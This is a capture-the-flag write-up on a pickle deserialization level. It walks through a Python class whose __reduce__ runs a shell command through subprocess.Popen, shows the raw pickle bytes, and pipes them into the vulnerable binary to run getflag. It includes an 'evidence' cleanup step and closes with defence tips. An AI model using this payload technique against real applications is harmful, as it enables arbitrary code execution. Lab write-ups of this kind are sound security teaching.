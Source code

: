 
---
### 📜 Challenge Summary

> The level focuses on Python's `pickle` module, which is notoriously **unsafe for untrusted input**.  
> The binary accepts serialized data via stdin and executes it blindly — allowing arbitrary code execution via crafted pickle payloads.

**Login:** `level17 : level17`  
**Goal:** Execute `getflag` as `flag17` by feeding malicious pickle shellcode.

---

### 🧪 Vulnerability Breakdown

#### 📦 Root of the Problem

The Python `pickle` module can serialize and deserialize Python objects. However:

- `pickle.loads()` can execute **arbitrary Python code** if the serialized data is crafted maliciously.
    
- The binary in this level reads such data and deserializes it without validation.
    

This results in a **deserialization vulnerability** — often exploitable via custom classes implementing `__reduce__`.

---

### 🛠️ Payload Crafting Strategy

#### 📍 Step 1: Write a Python Payload Generator

We create a custom class whose `__reduce__` method returns a tuple instructing Python to execute a shell command during deserialization.

```python
#!/usr/bin/env python3
import pickle
import subprocess

class Exploit:
    def __reduce__(self):
        return (
            subprocess.Popen,
            (('/bin/getflag > /tmp/level17.flag',),)
        )

payload = pickle.dumps(Exploit())
print(payload)
```

---

### 🐍 Step 2: Extract Raw Payload

Running the above code gives you **raw pickle bytecode** like this:

```
csubprocess
Popen
p0
((S'/bin/getflag > /tmp/level17.flag'
p1
tp2
Rp3
.
```

This is the serialized object that triggers `getflag`.

---

### 📥 Step 3: Send Payload to the Vulnerable Binary

Save the serialized content to a file:

```bash
echo -n "csubprocess\nPopen\np0\n((S'/bin/getflag > /tmp/level17.flag'\np1\ntp2\nRp3\n." > /tmp/payload.pickle
```

Then pipe it into the target program:

```bash
/home/flag17/flag17 < /tmp/payload.pickle
```

---

### 🏁 Step 4: Retrieve the Flag

Once the payload is processed, check the output:

```bash
cat /tmp/level17.flag
```

✅ Output:

```
You have successfully executed getflag on a target account
```

---

### 🧹 Cleanup

Optionally, clear the evidence:

```bash
rm /tmp/payload.pickle /tmp/level17.flag
```

---

### 🚨 Security Reflection

Pickle is powerful, but **dangerous** in the hands of attackers. This level is a direct demonstration of how **untrusted deserialization** leads to **remote code execution**.

#### 🛡️ Defense Tips:

- Never use `pickle.loads()` on user input.
    
- Prefer safer alternatives like `json`, which doesn't support code execution.
    
- If pickle is unavoidable, use **`pickletools.dis()`** to inspect serialized data before loading.
    

---
